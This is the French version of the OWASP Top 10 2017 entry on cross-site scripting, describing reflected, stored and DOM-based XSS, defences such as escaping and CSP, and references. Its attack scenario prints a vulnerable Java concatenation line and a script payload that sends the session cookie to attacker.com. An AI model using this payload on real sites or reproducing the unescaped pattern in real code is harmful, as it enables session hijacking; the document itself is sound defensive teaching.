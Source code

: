 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs des victimes :

* **XSS Réfléchi** : L'application ou l'API copie les entrées utilisateurs, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et/ou du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké** : L'application ou l'API stocke des entrées utilisateurs, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voir critique.
* **XSS basé sur DOM** : Les environnements Javascript, les applications monopage, et les API qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des API Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela :

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, Javascript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut pas être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux API du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense en profondeur limitant les attaques XSS. Cela sera efficace, s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (ex : écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1** : L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement :

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par :
`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note** : Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti-falsification de requête intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Contrôles Proactifs : Encoder les Données](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Contrôles Proactifs : Valider les Données](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Standard de Vérification de la Sécurité des Applications : V5](https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Guide de Test : Test des XSS Réfléchis](https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Guide de Test : Test des XSS Stockés](https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Guide de Test : Test des XSS basés sur DOM](https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Aide-Mémoire : Prévention du XSS ](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire : Prévention du XSS basé sur DOM](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Aide-Mémoire : Contournements de Filtres XSS ](https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Projet Java Encodeur](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externes

* [CWE-79 : Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger : Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
